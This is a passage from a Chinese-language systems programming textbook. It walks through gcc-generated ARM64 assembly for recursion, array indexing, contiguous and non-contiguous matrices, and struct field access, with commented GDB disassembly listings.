在某个时刻，`printf`引用了它的参数，这些参数是字符串`"x is %d\n"`和值 0x2A。回想一下，对于任何带有*n*个参数的函数，gcc 将前八个参数放入寄存器`x0`到`x7`中，剩余的参数则放到栈中*在*帧指针下方。在这个例子中，第一个参数存储在寄存器`x0`中（因为它是一个指向字符串的地址），第二个参数存储在组件寄存器`w1`中。

在调用`printf`之后，值 0x2A 以整数格式输出给用户。因此，值 42 被打印到屏幕上。栈指针恢复到之前的值，`pc`更新为寄存器`x30`中存储的值，即 0x774。



地址 0x774 处的`mov`指令将常数值`#0x0`加载到组件寄存器`w0`中。这表示`main`函数执行完毕后将返回的值。程序计数器将推进到下一条指令。



地址为 0x778 的`ldp`指令首先将`sp`和`sp` + 8 处的值分别复制到寄存器`x29`和`x30`中，将它们恢复到执行`main`函数之前的原始值。`ldp`指令的最后一部分（由操作数`[sp], #32`指定）将栈指针增加 32 字节，恢复`sp`到`main`执行前的原始值。因此，当`ldp`指令执行完毕时，栈指针（`sp`）、帧指针（`x29`）和返回寄存器（`x30`）都已恢复到它们的原始值。程序计数器推进到`main`函数中的最后一条指令。



最后执行的指令是`ret`。当返回寄存器`w0`中为 0x0 时，程序返回 0，表示正确终止。

如果你仔细阅读了这一部分内容，你应该明白为什么我们的程序输出值 42。实际上，程序不小心使用了栈中的旧值，导致其行为超出了我们的预期。这个例子没有什么危害；然而，我们将在后续章节讨论黑客如何恶意滥用函数调用，使得程序以真正恶意的方式表现异常。

### 9.6 递归

递归函数是一类特殊的函数，它们调用自身（也称为*自引用*函数）来计算一个值。与非递归函数类似，递归函数为每次函数调用创建新的栈帧。与标准函数不同，递归函数包含对自身的调用。

让我们回顾一下求和正整数从 1 到*n*的集合的问题。在之前的章节中，我们讨论了使用`sumUp`函数来完成这个任务。以下代码展示了一个相关的函数`sumDown`，它以相反的顺序（从*n*到 1）加和，并且它的递归等价函数是`sumr`：

迭代

```
int sumDown(int n) {

    int total = 0;

    int i = n;

    while (i > 0) {

        total += i;

        i--;

    }

    return total;

}
```

递归

```
int sumr(int n) {

    if (n <= 0) {

        return 0;

    }

    return n + sumr(n-1);

}
```

递归函数`sumr`中的基本情况处理了所有小于或等于零的*n*值，而递归步骤将当前的*n*值加到`sumr`函数调用的结果上，其中调用时*n*的值为*n–1*。编译`sumr`并使用 GDB 反汇编得到以下汇编代码：

```
Dump of assembler code for function sumr:

0x770 <+0>:  stp   x29, x30, [sp, #-32]! // sp = sp-32; store x29,x30 on stack

0x774 <+4>:  mov   x29, sp               // x29 = sp (i.e. x29 = top of stack)

0x778 <+8>:  str   w0, [x29, #28]        // store w0 at x29+28 (n)

0x77c <+12>: ldr   w0, [x29, #28]        // w0 = n

0x780 <+16>: cmp   w0, #0x0              // compare n to 0

0x784 <+20>: b.gt  0x790 <sumr+32>       // if (n > 0) goto <sumr+32>

0x788 <+24>: mov   w0, #0x0              // w0 = 0

0x78c <+28>: b     0x7a8 <sumr+56>       // goto <sumr+56>

0x790 <+32>: ldr   w0, [x29, #28]        // w0 = n

0x794 <+36>: sub   w0, w0, #0x1          // w0 = w0 - 1 (i.e. n-1)

0x798 <+40>: bl    0x770 <sumr>          // call sumr(n-1) (result)

0x79c <+44>: mov   w1, w0                // copy result into register w1

0x7a0 <+48>: ldr   w0, [x29, #28]        // w0 = n

0x7a4 <+52>: add   w0, w1, w0            // w0 = w0 + w1 (i.e n + result)

0x7a8 <+56>: ldp   x29, x30, [sp], #32   // restore x29, x30, and sp

0x7ac <+60>: ret                         // return w0 (result)
```

上述汇编代码中的每一行都附有它的英文翻译。这里，我们展示了对应的`goto`形式（第一种）和没有`goto`语句的 C 程序（第二种）：

C 的 goto 形式

```
int sumr(int n) {

    int result;

    if (n > 0) {

        goto body;

    }

    result = 0;

    goto done;

body:

    result = n;

    result--;

    result = sumr(result);

    result += n;

done:

    return result;

}
```

不带 goto 的 C 版本

```
int sumr(int n) {

    int result;

    if (n <= 0) {

        return 0;

    }

    result = sumr(n-1);

    result += n;

    return result;

}
```

尽管这种翻译在最初可能看起来与原始的`sumr`函数不完全相同，但仔细观察后可以发现这两个函数实际上是等价的。

#### 9.6.1 动画：观察调用栈的变化

作为一个练习，我们鼓励你绘制栈，并观察值是如何变化的。我们在线提供了一段动画，展示了当我们使用值`3`运行此函数时，栈是如何更新的。^(5)

### 9.7 数组

回顾一下，数组（见第 44 页中的“数组介绍”）是存储在内存中相邻位置的同一类型的数据元素的有序集合。静态分配的一维数组（见第 81 页中的“单维数组”）的形式为<type>`arr[N]`，其中<type>是数据类型，`arr`是与数组关联的标识符，`N`是数据元素的数量。静态声明一个数组形式为<type>`arr[N]`或动态声明为`arr = malloc(N*sizeof(<type>))`，这将分配*N* × `sizeof(<type>)`字节的总内存。

要访问数组`arr`中索引为`i`的元素，使用语法`arr[i]`。编译器通常会在转换为汇编之前将数组引用转换为指针运算（见第 67 页中的“指针变量”）。因此，`arr+i`等价于`&arr[i]`，`*(arr+i)`等价于`arr[i]`。由于`arr`中的每个数据元素都是<type>类型，`arr+i`意味着第`i`个元素存储在地址`arr` + `sizeof(<type>)` × `i`的位置。

表 9-15 概述了一些常见的数组操作及其对应的汇编指令。在接下来的示例中，假设我们声明了一个长度为 10 的`int`数组（例如，`int arr[10]`）。假设寄存器`x1`存储`arr`的地址，寄存器`x2`存储`int`值`i`，寄存器`x0`表示某个变量`x`（也是`int`类型）。回顾一下，`int`变量占用四个字节空间，而`int *`变量占用八个字节空间。

**表 9-15：** 常见的数组操作及其对应的汇编表示

| **操作** | **类型** | **汇编表示** |
| --- | --- | --- |
| `x = arr` | `int *` | `mov x0, x1` |
| `x = arr[0]` | `int` | `ldr w0, [x1]` |
| `x = arr[i]` | `int` | `ldr w0, [x1, x2, LSL, #2]` |
| `x = &arr[3]` | `int *` | `add x0, x1, #12` |
| `x = arr+3` | `int *` | `add x0, x1, #12` |
| `x = *(arr+5)` | `int` | `ldr w0, [x1, #20]` |

请注意，为了访问元素 `arr[5]`（或使用指针运算访问 `*(arr+5)`），编译器会对地址 `arr+5*4` 进行内存查找，而不是 `arr+5`。要理解为什么这样做是必要的，请回想一下，数组中索引为 `i` 的元素存储在地址 `arr` + `sizeof(<type>)` × `i`。因此，编译器必须将索引乘以数据类型的大小（在此情况下是 4，因为 `sizeof(int)` = 4）来计算正确的偏移量。还要记住，内存是按字节寻址的；通过正确的字节数偏移等同于计算一个地址。

例如，考虑一个包含 10 个整数元素的示例数组（`array`）（图 9-7）。



*图 9-7：十个整数数组在内存中的布局。每个标有 a[i] 的框表示四字节的偏移，因为每个整数需要四个字节来存储。*

请注意，由于 `array` 是一个整数数组，每个元素恰好占用四个字节。因此，一个包含 10 个元素的整数数组会占用 40 字节的连续内存。

为了计算元素 3 的地址，编译器将索引 3 乘以整数类型的数据大小（4），得到一个偏移量为 12（或 0xc）。果然，图 9-7 中的元素 3 位于字节偏移量 *a*[12]。

让我们来看一个简单的 C 函数，名为 `sumArray`，它会对数组中的所有元素求和：

```
int sumArray(int *array, int length) {

    int i, total = 0;

    for (i = 0; i < length; i++) {

        total += array[i];

    }

    return total;

}
```

`sumArray` 函数接受数组的地址和数组的长度，并对数组中的所有元素求和。现在，让我们看一下 `sumArray` 函数的对应汇编代码：

```
Dump of assembler code for function sumArray:

0x874 <+0>:   sub    sp, sp, #0x20       // grow stack by 32 bytes (new frame)

0x878 <+4>:   str    x0, [sp, #8]        // store x0 at sp + 8 (array address)

0x87c <+8>:   str    w1, [sp, #4]        // store w1 at sp + 4 (length)

0x880 <+12>:  str    wzr, [sp, #28]      // store 0 at sp + 28  (total)

0x884 <+16>:  str    wzr, [sp, #24]      // store 0 at sp + 24 (i)

0x888 <+20>:  b      0x8b8 <sumArray+68> // goto <sumArray+68>

0x88c <+24>:  ldrsw  x0, [sp, #24]       // x0 = i

0x890 <+28>:  lsl    x0, x0, #2          // left shift i by 2 (i ≪ 2, or i*4)

0x894 <+32>:  ldr    x1, [sp, #8]        // x1 = array

0x898 <+36>:  add    x0, x1, x0          // x0 = array + i*4

0x89c <+40>:  ldr    w0, [x0]            // w0 = array[i]

0x8a0 <+44>:  ldr    w1, [sp, #28]       // w1 = total

0x8a4 <+48>:  add    w0, w1, w0          // w0 = total + array[i]

0x8a8 <+52>:  str    w0, [sp, #28]       // store (total + array[i]) in total

0x8ac <+56>:  ldr    w0, [sp, #24]       // w0 = i

0x8b0 <+60>:  add    w0, w0, #0x1        // w0 = w0 + 1 (i+1)

0x8b4 <+64>:  str    w0, [sp, #24]       // store (i + 1) in i (i.e. i+=1)

0x8b8 <+68>:  ldr    w1, [sp, #24]       // w1 = i

0x8bc <+72>:  ldr    w0, [sp, #4]        // w0 = length

0x8c0 <+76>:  cmp    w1, w0              // compare i and length

0x8c4 <+80>:  b.lt   0x88c <sumArray+24> // if (i < length) goto <sumArray+24>

0x8c8 <+84>:  ldr    w0, [sp, #28]       // w0 = total

0x8cc <+88>:  add    sp, sp, #0x20       // revert stack to original state

0x8d0 <+92>:  ret                        // return (total)
```

在跟踪这段汇编代码时，考虑一下被访问的数据是指针还是值。例如，`<sumArray+12>` 处的指令会导致栈位置 `sp` + 28 包含一个类型为 `int` 的变量，该变量最初被设置为 0。相反，存储在 `sp` + 8 位置的参数是函数的第一个参数（`array`），它是 `int *` 类型，并对应数组的基地址。另一个变量（我们称之为 `i`）存储在 `sp` + 24 位置，初始值为 0。

敏锐的读者会注意到 `<sumArray+30>` 处出现了一条之前未见的指令 `ldrsw`。`ldrsw` 指令表示“加载寄存器有符号字”，它将存储在 `sp` + 24 处的 32 位 `int` 值转换为 64 位整数，并将其存储在 `x0` 中。这个操作是必要的，因为接下来的指令要进行指针运算。请记住，在 64 位系统中，指针占用八个字节的空间。编译器使用 `ldrsw` 来简化这个过程，确保所有数据都存储在完整的 64 位寄存器中，而不是它们的 32 位组件。

让我们仔细看看 `<sumArray+28>` 和 `<sumArray+52>` 之间的七条指令：

```
0x890 <+28>:  lsl    x0, x0, #2         // left shift i by 2 (i ≪ 2, or i*4)

0x894 <+32>:  ldr    x1, [sp, #8]       // x1 = array

0x898 <+36>:  add    x0, x1, x0         // x0 = array + i*4

0x89c <+40>:  ldr    w0, [x0]           // w0 = array[i]

0x8a0 <+44>:  ldr    w1, [sp, #28]      // w1 = total

0x8a4 <+48>:  add    w0, w1, w0         // w0 = total + array[i]

0x8a8 <+52>:  str    w0, [sp, #28]      // store (total + array[i]) in total
```

编译器使用 `lsl` 对存储在 `x0` 中的值 `i` 执行左移操作。当此指令执行完毕时，寄存器 `x0` 中包含 `i ≪ 2`，即 `i * 4`。此时，`x0` 包含计算 `array[i]` 正确偏移量所需的字节数（或 `sizeof(int)` = 4）。

下一条指令（`ldr x1, [sp, #8]`）将函数的第一个参数（即 `array` 的基地址）加载到寄存器 `x1` 中。在接下来的指令中，将 `x1` 加到 `x0` 中，使得 `x0` 包含 `array` + `i` × 4。请记住，`array` 中索引为 `i` 的元素存储在地址 `array` + `sizeof(<type>)` × `i` 处。因此，`x0` 现在包含了地址 `&array[i]` 的汇编级计算。

`<sumArray+40>` 处的指令*取消引用*了存储在 `x0` 中的值，将 `array[i]` 的值放入 `w1` 中。请注意使用了组件寄存器 `w1`，因为 `array[i]` 包含一个 32 位的 `int` 值！相比之下，变量 `i` 在 `<sumArray+24>` 处被更改为 64 位整数，因为 `i` 即将用于*地址计算*。再次提醒，地址（指针）以 64 位字存储。

`<sumArray+44>` 和 `<sumArray+52>` 之间的最后三条指令将当前的 `total` 值加载到组件寄存器 `w1` 中，将 `array[i]` 加到其中，并将结果存储在组件寄存器 `w0` 中，然后在 `sp` + 28 位置更新 `total` 为新的和。因此，`<sumArray+28>` 和 `<sumArray+52>` 之间的七条指令等价于 `sumArray` 函数中的 `total += array[i]` 这一行。

### 9.8 矩阵

矩阵是一个二维数组。在 C 语言中，矩阵可以作为静态二维数组（`M[n][m]`）分配，或者通过一次 `malloc` 调用进行动态分配，或者作为数组的数组进行动态分配。我们来看看数组的数组实现。第一个数组包含 `n` 个元素（`M[n]`），矩阵中的每个元素 `M[i]` 包含一个 `m` 个元素的数组。以下代码片段声明了大小为 4 × 3 的矩阵：

```
//statically allocated matrix (allocated on stack)

int M1[4][3];

//dynamically allocated matrix (programmer friendly, allocated on heap)

int **M2, i;

M2 = malloc(4 * sizeof(int*));

for (i = 0; i < 4; i++) {

    M2[i] = malloc(3 * sizeof(int));

}
```

对于动态分配的矩阵，主数组包含一组连续的 `int` 指针数组。每个整数指针指向内存中的不同数组。图 9-8 说明了我们通常如何可视化这些矩阵。



*图 9-8：静态分配（`M1`）和动态分配（`M2`）3 × 4 矩阵的示例*

对于这两个矩阵声明，元素（*i*,*j*）可以使用双索引语法`M[i][j]`来访问，其中`M`可以是`M1`或`M2`。然而，这些矩阵在内存中的组织方式不同。尽管两者都在主数组中连续存储元素，但是我们静态分配的矩阵也将所有行连续存储在内存中，如图 9-9 所示。



*图 9-9：按行主序排列的矩阵`M1`的内存布局*

这种连续的排序对于`M2`并不保证。回顾一下（参见第 86 页的“二维数组内存布局”），为了在堆上连续分配一个*n* × *m*矩阵，我们应该使用一次调用`malloc`来分配*n* × *m*个元素：

```
//dynamic matrix (allocated on heap, memory efficient way)

#define ROWS 4

#define COLS 3

int *M3;

M3 = malloc(ROWS*COLS*sizeof(int));
```

请注意，对于声明为`M3`的矩阵，无法使用`M[i][j]`的方式访问元素（*i*,*j*）。相反，我们必须使用`M3[i*cols + j]`的格式进行索引。

#### 9.8.1 连续二维数组

考虑一个名为`sumMat`的函数，它以一个指向连续分配的（静态分配或内存高效动态分配的）矩阵的指针作为其第一个参数，以及行数和列数，并返回矩阵中所有元素的总和。

我们在接下来的代码片段中使用了比例索引，因为它适用于静态和动态分配的连续矩阵。回想一下，语法`m[i][j]`不能与先前讨论的内存高效连续动态分配一起使用。

```
int sumMat(int *m, int rows, int cols) {

    int i, j, total = 0;

    for (i = 0; i < rows; i++){

        for (j = 0; j < cols; j++){

            total += m[i*cols + j];

        }

    }

    return total;

}
```

下面是相应的汇编代码。每行都用其英文翻译进行了注释：

```
Dump of assembler code for function sumMat:

0x884 <+0>:   sub   sp, sp, #0x20      // grow stack by 32 bytes (new frame)

0x888 <+4>:   str   x0, [sp, #8]       // store m in location sp + 8

0x88c <+8>:   str   w1, [sp, #4]       // store rows in location sp + 4

0x890 <+12>:  str   w2, [sp]           // store cols at top of stack

0x894 <+16>:  str   wzr, [sp, #28]     // store zero at sp + 28 (total)

0x898 <+20>:  str   wzr, [sp, #20]     // store zero at sp + 20 (i)

0x89c <+24>:  b     0x904 <sumMat+128> // goto <sumMat+128>

0x8a0 <+28>:  str   wzr, [sp, #24]     // store zero at sp + 24 (j)

0x8a4 <+32>:  b     0x8e8 <sumMat+100> // goto <sumMat+100>

0x8a8 <+36>:  ldr   w1, [sp, #20]      // w1 = i

0x8ac <+40>:  ldr   w0, [sp]           // w0 = cols

0x8b0 <+44>:  mul   w1, w1, w0         // w1 = cols * i

0x8b4 <+48>:  ldr   w0, [sp, #24]      // w0 = j

0x8b8 <+52>:  add   w0, w1, w0         // w0 = (cols * i) + j

0x8bc <+56>:  sxtw  x0, w0             // x0 = signExtend(cols * i + j)

0x8c0 <+60>:  lsl   x0, x0, #2         // x0 = (cols * i + j) * 4

0x8c4 <+64>:  ldr   x1, [sp, #8]       // x1 = m

0x8c8 <+68>:  add   x0, x1, x0         // x0 = m+(cols*i+j)*4 (or &m[i*cols+j])

0x8cc <+72>:  ldr   w0, [x0]           // w0 = m[i*cols + j]

0x8d0 <+76>:  ldr   w1, [sp, #28]      // w1 = total

0x8d4 <+80>:  add   w0, w1, w0         // w0 = total + m[i*cols + j]

0x8d8 <+84>:  str   w0, [sp, #28]      // total is now (total + m[i*cols + j])

0x8dc <+88>:  ldr   w0, [sp, #24]      // w0  = j

0x8e0 <+92>:  add   w0, w0, #0x1       // w0 = j + 1

0x8e4 <+96>:  str   w0, [sp, #24]      // update j  with (j + 1)

0x8e8 <+100>: ldr   w1, [sp, #24]      // w1 = j

0x8ec <+104>: ldr   w0, [sp]           // w0 = cols

0x8f0 <+108>: cmp   w1, w0             // compare j with cols

0x8f4 <+112>: b.lt  0x8a8 <sumMat+36>  // if (j < cols) goto <sumMat+36>

0x8f8 <+116>: ldr   w0, [sp, #20]      // w0 = i

0x8fc <+120>: add   w0, w0, #0x1       // w0 = i + 1

0x900 <+124>: str   w0, [sp, #20]      // update i with (i+1)

0x904 <+128>: ldr   w1, [sp, #20]      // w1 = i

0x908 <+132>: ldr   w0, [sp, #4]       // w0 = rows

0x90c <+136>: cmp   w1, w0             // compare i with rows

0x910 <+140>: b.lt  0x8a0 <sumMat+28>  // if (i < rows) goto <sumMat+28>

0x914 <+144>: ldr   w0, [sp, #28]      // w0 = total

0x918 <+148>: add   sp, sp, #0x20      // revert stack to prior state

0x91c <+152>: ret                      // return (total)
```

本地变量`i`、`j`和`total`存储在堆栈位置`sp` + 20、`sp` + 24 和`sp` + 28 处。输入参数`m`、`row`和`cols`存储在位置`sp` + 8、`sp` + 4 和堆栈顶部`sp`处。有了这些知识，让我们聚焦于处理矩阵中元素（*i*,*j*）访问的组件（0x8a8–0x8d8）：

```
0x8a8 <+36>:   ldr   w1, [sp, #20]       // w1 = i

0x8ac <+40>:   ldr   w0, [sp]            // w0 = cols

0x8b0 <+44>:   mul   w1, w1, w0          // w1 = cols * i
```

第一组指令计算了值`cols*i`并将其放入寄存器`w1`中。回想一下，对于某个名为`matrix`的矩阵，`matrix+i*cols`等同于`&matrix[i]`。

```
0x8b4 <+48>:   ldr   w0, [sp, #24]       // w0 = j

0x8b8 <+52>:   add   w0, w1, w0          // w0 = (cols * i) + j

0x8bc <+56>:   sxtw  x0, w0              // x0 = signExtend(cols * i + j)

0x8c0 <+60>:   lsl   x0, x0, #2          // x0 = (cols * i + j) * 4
```

接下来的指令集计算了`(cols*i + j) * 4`的值。编译器将索引`cols * i + j`乘以四，因为矩阵中的每个元素都是四字节整数，这样的乘法使编译器能够计算出正确的偏移量。第`<sumMat+56>`行的`sxtw`指令将`w0`的内容符号扩展为 64 位整数，因为地址计算需要这个值。

下一组指令将计算得到的偏移量添加到矩阵指针中，并对其进行解引用，从而得到元素（*i*,*j*）的值：

```
0x8c4 <+64>: ldr   x1, [sp, #8]  // x1 = m

0x8c8 <+68>: add   x0, x1, x0    // x0 = m + (cols*i + j)*4 (or m[i*cols + j])

0x8cc <+72>: ldr   w0, [x0]      // w0 = m[i*cols + j]

0x8d0 <+76>: ldr   w1, [sp, #28] // w1 = total

0x8d4 <+80>: add   w0, w1, w0    // w0 = total + m[i*cols + j]

0x8d8 <+84>: str   w0, [sp, #28] // update total with (total + m[i*cols + j])
```

第一条指令将矩阵 `m` 的地址加载到寄存器 `x1` 中。`add` 指令将 `(cols * i + j) * 4` 加到 `m` 的地址上，以正确计算元素 (*i*,*j*) 的偏移量，然后将结果放入寄存器 `x0`。第三条指令解引用 `x0` 中的地址，并将值（`m[i * cols + j]`）放入 `w0` 中。注意 `w0` 作为目标组件寄存器的使用；由于我们的矩阵包含整数，并且整数占四个字节的空间，因此组件寄存器 `w0` 再次被用来代替 `x0`。

最后三条指令将当前的 `total` 值加载到寄存器 `w1`，将 `total` 与 `m[i * cols + j]` 相加，然后用结果的和更新 `total`。

让我们来看看如何访问矩阵 `M1` 中的元素 (1,2)。



*图 9-10：矩阵 `M1` 按行主序排列的内存布局（摘自 图 9-9)*

元素 (1,2) 位于地址 `M1 + 1 * cols + 2`。由于 `cols` = 3，元素 (1,2) 对应于 `M1 + 5`。要访问这个位置的元素，编译器必须将 5 乘以 `int` 数据类型的大小（四个字节），得到偏移量 `M1 + 20`，该偏移量对应图中字节 *a*[20]。解引用这个位置得到元素 5，这实际上就是矩阵中的元素 (1,2)。

#### 9.8.2 非连续矩阵

非连续矩阵的实现稍微复杂一些。图 9-11 直观展示了 `M2` 在内存中的布局。


*图 9-11：矩阵 M2 在内存中的非连续布局*

注意到 `M2` 中的指针数组是连续的，而且每个由 `M2` 的某个元素指向的数组（例如，`M2[i]`）也是连续的。然而，这些单独的数组彼此之间并不连续。由于 `M2` 是一个指针数组，`M2` 的每个元素占用八个字节的空间。相比之下，由于每个 `M2[i]` 是一个 `int` 数组，`M2[i]` 数组中的元素之间相隔四个字节。

以下示例中的 `sumMatrix` 函数将一个整数指针数组（称为 `matrix`）作为第一个参数，行数和列数作为第二个和第三个参数：

```
int sumMatrix(int **matrix, int rows, int cols) {

    int i, j, total=0;

    for (i = 0; i < rows; i++) {

        for (j = 0; j < cols; j++) {

            total += matrix[i][j];

        }

    }

    return total;

}
```

尽管这个函数看起来几乎与前面展示的 `sumMat` 函数相同，但该函数接受的矩阵是一个连续的 *指针* 数组。每个指针包含一个独立连续数组的地址，该数组对应矩阵中的一行。

以下是 `sumMatrix` 的对应汇编代码。每行代码都有英文翻译的注释。

```
Dump of assembler code for function sumMatrix:

0x920 <+0>:   sub   sp, sp, #0x20         // grow stack 32 bytes (new frame)

0x924 <+4>:   str   x0, [sp, #8]          // store matrix at sp + 8

0x928 <+8>:   str   w1, [sp, #4]          // store rows at sp + 4

0x92c <+12>:  str   w2, [sp]              // store cols at sp (top of stack)

0x930 <+16>:  str   wzr, [sp, #28]        // store 0 at sp + 28 (total)

0x934 <+20>:  str   wzr, [sp, #20]        // store 0 at sp + 20 (i)
 0x938 <+24>:  b     0x99c <sumMatrix+124> // goto <sumMatrix+124>

0x93c <+28>:  str   wzr, [sp, #24]        // store 0 at sp + 24 (j)

0x940 <+32>:  b     0x980 <sumMatrix+96>  // goto <sumMatrix+96>

0x944 <+36>:  ldrsw x0, [sp, #20]         // x0 = signExtend(i)

0x948 <+40>:  lsl   x0, x0, #3            // x0 = i ≪ 3 (or i * 8)

0x94c <+44>:  ldr   x1, [sp, #8]          // x1 = matrix

0x950 <+48>:  add   x0, x1, x0            // x0 = matrix + i * 8

0x954 <+52>:  ldr   x1, [x0]              // x1 = matrix[i]

0x958 <+56>:  ldrsw x0, [sp, #24]         // x0 = signExtend(j)

0x95c <+60>:  lsl   x0, x0, #2            // x0 = j ≪ 2 (or j * 4)

0x960 <+64>:  add   x0, x1, x0            // x0 = matrix[i] + j * 4

0x964 <+68>:  ldr   w0, [x0]              // w0 = matrix[i][j]

0x968 <+72>:  ldr   w1, [sp, #28]         // w1 = total

0x96c <+76>:  add   w0, w1, w0            // w0 = total + matrix[i][j]

0x970 <+80>:  str   w0, [sp, #28]         // store total = total+matrix[i][j]

0x974 <+84>:  ldr   w0, [sp, #24]         // w0 = j

0x978 <+88>:  add   w0, w0, #0x1          // w0 = j + 1

0x97c <+92>:  str   w0, [sp, #24]         // update j with (j + 1)

0x980 <+96>:  ldr   w1, [sp, #24]         // w1 = j

0x984 <+100>: ldr   w0, [sp]              // w0 = cols

0x988 <+104>: cmp   w1, w0                // compare j with cols

0x98c <+108>: b.lt  0x944 <sumMatrix+36>  // if (j < cols) goto <sumMatrix+36>

0x990 <+112>: ldr   w0, [sp, #20]         // w0 = i

0x994 <+116>: add   w0, w0, #0x1          // w0 = i + 1

0x998 <+120>: str   w0, [sp, #20]         // update i with (i + 1)

0x99c <+124>: ldr   w1, [sp, #20]         // w1 = i

0x9a0 <+128>: ldr   w0, [sp, #4]          // w0 = rows

0x9a4 <+132>: cmp   w1, w0                // compare i with rows

0x9a8 <+136>: b.lt  0x93c <sumMatrix+28>  // if (i < rows) goto <sumMatrix+28>

0x9ac <+140>: ldr   w0, [sp, #28]         // w0 = total

0x9b0 <+144>: add   sp, sp, #0x20         // revert stack to its original form

0x9b4 <+148>: ret                         // return (total)
```

同样，变量 `i`、`j` 和 `total` 分别位于栈地址 `sp` + 20、`sp` + 24 和 `sp` + 28。输入参数 `matrix`、`row` 和 `cols` 分别位于栈地址 `sp` + 8、`sp` + 4 和 `sp`（栈顶）。

让我们聚焦于专门处理访问元素 (*i*,*j*) 或 `matrix[i][j]` 的部分，这在指令 0x944 和 0x970 之间：

```
0x944 <+36>:   ldrsw  x0, [sp, #20]          // x0 = signExtend(i)

0x948 <+40>:   lsl    x0, x0, #3             // x0 = i ≪ 3 (or i * 8)

0x94c <+44>:   ldr    x1, [sp, #8]           // x1 = matrix

0x950 <+48>:   add    x0, x1, x0             // x0 = matrix + i * 8

0x954 <+52>:   ldr    x1, [x0]               // x1 = matrix[i]
```

本示例中的五条指令计算 `matrix[i]` 或 `*(matrix+i)`。由于 `matrix[i]` 包含一个指针，`i` 首先被转换为一个 64 位整数。然后，编译器通过使用位移操作将 `i` 乘以 8，再将结果加到 `matrix` 上，从而得到正确的地址偏移（请记住，指针的大小是 8 字节）。`<sumMatrix+52>` 处的指令随后对计算出的地址进行解引用，以获取元素 `matrix[i]`。

由于 `matrix` 是一个 `int` 指针的数组，位于 `matrix[i]` 的元素本身就是一个 `int` 指针。`matrix[i]` 中的 *j* 元素位于 `matrix[i]` 数组中的偏移量 `j × 4` 处。

下一组指令提取数组 `matrix[i]` 中的 *j* 元素：

```
0x958 <+56>:   ldrsw  x0, [sp, #24]     // x0 = signExtend(j)

0x95c <+60>:   lsl    x0, x0, #2        // x0 = j ≪ 2 (or j * 4)

0x960 <+64>:   add    x0, x1, x0        // x0 = matrix[i] + j * 4

0x964 <+68>:   ldr    w0, [x0]          // w0 = matrix[i][j]

0x968 <+72>:   ldr    w1, [sp, #28]     // w1 = total

0x96c <+76>:   add    w0, w1, w0        // w0 = total + matrix[i][j]

0x970 <+80>:   str    w0, [sp, #28]     // store total = total + matrix[i][j]
```

这个代码片段中的第一条指令将变量 `j` 加载到寄存器 `x0` 中，并在此过程中进行符号扩展。然后，编译器使用左移（`lsl`）指令将 `j` 乘以 4，并将结果存储在寄存器 `x0` 中。编译器最后将结果加到 `matrix[i]` 所在的地址上，从而得到元素 `matrix[i][j]` 的地址，或者 `&matrix[i][j]`。`<sumMatrix+68>` 处的指令随后对该地址进行解引用，以获取 `matrix[i][j]` 的 *值*，并将其存储在寄存器 `w0` 中。最后，`<sumMatrix+72>` 到 `<sumMatrix+80>` 之间的指令将 `total` 加到 `matrix[i][j]` 上，并用结果更新变量 `total`。

让我们考虑访问`M2[1][2]`的一个示例。



*图 9-12：矩阵 M2 在内存中的非连续布局（摘自图 9-11）*

请注意，`M2` 从内存位置 *a*[0] 开始。编译器首先通过将 1 乘以 8（`sizeof(int *)`），然后将结果加到 `M2` 的地址 (*a*[0]) 上，计算出 `M2[1]` 的地址，得到的新地址是 *a*[8]。对该地址进行解引用会得到与 `M2[1]` 相关联的地址，即 *a*[36]。然后，编译器将索引 2 乘以 4（`sizeof(int)`），并将结果（8）加到 *a*[36] 上，得到最终地址 *a*[44]。地址 *a*[44] 被解引用，得到值 5。果然，图 9-12 中对应 `M2[1][2]` 的元素值就是 5。

### 汇编中的 9.9 结构体

`struct`（参见 C 结构体，第 103 页）是另一种在 C 中创建数据类型集合的方式。与数组不同，它允许不同的数据类型组合在一起。C 将 `struct` 存储得像一个一维数组，其中数据元素（字段）是连续存储的。

让我们回顾一下来自第一章的 `struct studentT`：

```
struct studentT {

    char name[64];

    int  age;

    int  grad_yr;

    float gpa;

};

struct studentT student;
```

图 9-13 显示了 `student` 在内存中的布局。每个 *a*[*i*] 表示内存中的一个偏移量。



*图 9-13：`struct studentT` 的内存布局*

每个字段都按照声明的顺序在内存中连续存储。在图 9-13 中，`age`字段被分配在紧接着`name`字段的位置（字节偏移量 *a*[64]），后面是`grad_yr`（字节偏移量 *a*[68]）和`gpa`（字节偏移量 *a*[72]）字段。这种组织方式使得访问字段时能够高效利用内存。

要理解编译器如何生成汇编代码以处理`struct`，请考虑`initStudent`函数：

```
void initStudent(struct studentT *s, char *nm, int ag, int gr, float g) {

    strncpy(s->name, nm, 64);

    s->grad_yr = gr;

    s->age = ag;

    s->gpa = g;

}
```

`initStudent`函数将`struct studentT`的基地址作为第一个参数，剩余的参数是每个字段的期望值。以下清单展示了该函数的汇编代码：

```
Dump of assembler code for function initStudent:

0x7f4 <+0>:  stp  x29, x30, [sp, #-48]!  // sp-=48; store x29, x30 at sp, sp+4

0x7f8 <+4>:  mov  x29, sp                // x29 = sp (frame ptr = stack ptr)

0x7fc <+8>:  str  x0, [x29, #40]         // store s at x29 + 40

0x800 <+12>: str  x1, [x29, #32]         // store nm at x29 + 32

0x804 <+16>: str  w2, [x29, #28]         // store ag at x29 + 28

0x808 <+20>: str  w3, [x29, #24]         // store gr at x29 + 24

0x80c <+24>: str  s0, [x29, #20]         // store g at x29 + 20

0x810 <+28>: ldr  x0, [x29, #40]         // x0 = s

0x814 <+32>: mov  x2, #0x40              // x2 = 0x40 (or 64)

0x814 <+36>: ldr  x1, [x29, #32]         // x1 = nm

0x818 <+40>: bl   0x6e0 <strncpy@plt>    // call strncpy(s, nm, 64) (s->name)

0x81c <+44>: ldr  x0, [x29, #40]         // x0 = s

0x820 <+48>: ldr  w1, [x29, #24]         // w1 = gr

0x824 <+52>: str  w1, [x0, #68]          // store gr at (s + 68) (s->grad_yr)

0x828 <+56>: ldr  x0, [x29, #40]         // x0 = s

0x82c <+60>: ldr  w1, [x29, #28]         // w1 = ag

0x830 <+64>: str  w1, [x0, #64]          // store ag at (s + 64) (s->age)

0x834 <+68>: ldr  x0, [x29, #40]         // x0 = s

0x838 <+72>: ldr  s0, [x29, #20]         // s0 = g

0x83c <+80>: str  s0, [x0, #72]          // store g at (s + 72) (s->gpa)

0x844 <+84>: ldp  x29, x30, [sp], #48    // x29 = sp, x30 = sp+4, sp += 48

0x848 <+88>: ret                         // return (void)
```

注意每个字段的字节偏移量对于理解这段代码至关重要。这里有一些要记住的事项。

